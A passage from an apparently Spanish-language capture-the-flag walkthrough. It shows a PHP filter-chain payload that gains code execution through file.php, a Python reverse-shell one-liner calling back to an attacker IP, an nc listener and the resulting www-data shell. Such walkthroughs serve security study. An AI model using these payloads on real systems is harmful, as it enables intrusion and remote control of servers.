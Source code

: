 ```
t.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Copiamos eso y lo metemos despues del igual de la siguiente manera...

```
URL = http://<IP>/php-scripts/file.php?cmd=whoami&6=<CONTENT_GENERATE>
```

Info:

```
www-data
�
P�����
```

Veremos que esta funcionando, por lo que vamos a generarnos una `reverse shell` para acceder al servidor.

```
URL = http://<IP>/php-scripts/file.php?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'&6=<CONTENT_GENERATE>
```

Nos ponemos a la escucha antes de enviarlo.

```shell
nc -lvnp <PORT>
```

Ahora si enviamos lo de antes de la `URL` y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.81] 36040
www-data@hat:/var/www/html/php-scripts$ whoami
whoami
www-data
```

